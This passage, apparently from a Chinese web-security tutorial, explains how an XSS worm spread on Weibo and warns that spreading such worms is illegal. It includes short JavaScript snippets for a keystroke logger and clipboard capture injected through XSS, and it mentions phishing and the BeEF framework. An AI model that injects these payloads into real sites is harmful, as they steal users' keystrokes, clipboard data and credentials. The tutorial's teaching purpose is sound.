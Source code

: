 ```
}
catch(e){}
main();
var t=setTimeout('location="http://weibo.com/pub/topic";',5000);
```

我总结了该 XSS 蠕虫的攻击流程：

1.  利用 XSS 漏洞插入恶意 JS 代码；
    
2.  利用 XMLHttpRequest 发送请求去发表微博、关注用户、获取关注者列表并向其发送私信；
    
3.  微博消息和私信都包含有恶意攻击链接，等于实现了攻击代码的自我复制和传播。
    

由此可见，一个完整的 XSS 蠕虫常常具备如下特征：

-   目标网站存在 XSS 漏洞；
    
-   攻击代码的自我复制和传播，其传播方式依赖于业务场景，更多是在社交功能上，比如博客、私信、微博、评论。
    

**声明：在互联网上传播 XSS 蠕虫属于违法行为，即使是处于合法的渗透测试任务，也该严格控制传播的可能性，否则出现失控，仍需承担法律责任**。

#### 其他攻击方法

在 XSS 漏洞攻击场景下，凡是 JavaScript 能够实现功能，你都可以自由发挥，实现不同的攻击方法。

比如键盘记录：

```
keys = ""
document.onkeypress = function(){
  keys += String.fromCharCode(window.event.keyCode);
}
```

比如在 Chrome 浏览器中使用代码截获剪贴板内容：

```
document.addEventListener('paste', function (evt) {
  clipdata = evt.clipboardData || window.clipboardData;
console.log(clipdata.getData('text/plain'));
});
```

![Drawing 22.png](https://s0.lgstatic.com/i/image/M00/8B/A8/CgqCHl_cOwOAbfppAATnMiQk45A089.png)

图 23：截获剪贴内容

比如钓鱼欺骗用户输入账号、密码：

![图片15.png](https://s0.lgstatic.com/i/image2/M01/03/E6/Cip5yF_kTF-ALwT6AALUte7Tb1k341.png)

图 24：利用 XSS 进行钓鱼欺骗

方法还有很多，因篇幅有限，这里不再赘述，你可以参考下面讲到的 XSS 攻击框架 BeEF，它在工具上集成了很多 XSS 攻击方式，可直接使用。

#### BeEF
